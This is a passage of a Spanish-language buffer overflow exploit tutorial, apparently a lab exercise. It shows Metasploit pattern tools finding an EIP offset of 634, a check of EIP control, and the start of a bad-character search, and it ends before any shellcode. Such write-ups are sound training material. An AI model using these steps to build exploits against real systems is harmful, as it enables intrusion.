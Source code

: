 ![20240228012136.png](20240228012136.png)

Haciendo uso de `msf-pattern_create` generaremos 700 caracteres con el fin de hacer uso y encontrar el offset

```php
❯ msf-pattern_create -l 700
```

Agregaremos a nuestro código los caracteres generados como se muestra en la siguiente imagen.

![20240228012809.png](20240228012809.png)

Luego de ejecutar y obtener lo que se encuentra en el `EIP` y haciendo uso de `msf-pattern_offset` obtendremos el offset que en este caso es 634

```php
❯ msf-pattern_offset -q 76413176
[*] Exact match at offset 634
```

## Control de EIP

Para comprobar si tenemos control del EIP agregaremos 4 `B` en nuestro código después de las 634 `A` como se hizo en la tarea anterior.

```php
❯ echo '0x42'| xxd -ps -r; echo
B
```

## Badchars

Luego de tener el control del EIP procederemos a encontrar lo badchars
### Badchar N° 1
